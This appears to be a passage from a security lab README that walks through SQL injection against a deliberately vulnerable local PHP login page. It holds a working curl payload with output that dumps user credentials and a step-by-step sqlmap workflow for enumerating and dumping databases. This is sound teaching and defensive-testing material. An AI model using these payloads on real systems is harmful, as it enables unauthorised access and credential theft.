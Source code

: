 *Be sure to run `sudo systemctl restart apache2` once you finish modifying any live webpages.*

---

### curl

The following curl payload will perform the injection, dumping ALL usernames and passwords from the current database:

```bash
curl -X POST 'http://127.0.0.1:80/login-vuln.php' -d 'username=test%27 OR 1=1;-- -&password=test'

Login successful!<br>Username: testuser<br>Password: testpassword<br><br><br>Username: admin<br>Password: WDt0qAOYZiOotpPa8sGjuBvQfQGTeo9H<br><br>
```

Alternatively you can simply paste `' or 1=1-- -` into the username form via a web browser.


### sqlmap

You can use sqlmap to test all of this as well.

Download the latest from GitHub:

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

Typically you'll want to be as surgical as possible with your sqlmap queries. This means making the minimal amount of requests and dumping precisely the data you're after. I've put together steps I've learned from various trainings, resources, and CTF's that reliably step through that.

Use the following steps after finding a vulnerable parameter to walk through and dump a database:

- [`--current-user`](https://github.com/sqlmapproject/sqlmap/wiki/Usage#session-user) obtains the current mysql user context
- [`--is-dba`](https://github.com/sqlmapproject/sqlmap/wiki/Usage#detect-whether-or-not-the-session-user-is-a-database-administrator) checks whether the user is a database admin
- [`--dbs`](https://github.com/sqlmapproject/sqlmap/wiki/Usage#list-database-management-systems-databases) enumerate databases
- [`-D <database> --tables`](https://github.com/sqlmapproject/sqlmap/wiki/Usage#enumerate-databases-tables) enumerate tables
- [`-D <database> -T <table> --columns`](https://github.com/sqlmapproject/sqlmap/wiki/Usage#enumerate-database-table-columns) enumerate columns
- [`-D <database> -T <table> -C <column1>,<column2> --dump`](https://github.com/sqlmapproject/sqlmap/wiki/Usage#dump-database-table-entries) dump the columns data

To run sqlmap against this LAMP stack:

```bash
python3 ./sqlmap.py -u 'http://127.0.0.1:80/login-vuln.php' --data='username=TEST&password=TEST' -p "username" --param-del="&" --method=POST -f --banner -v 3
```

Logging SQLi
============
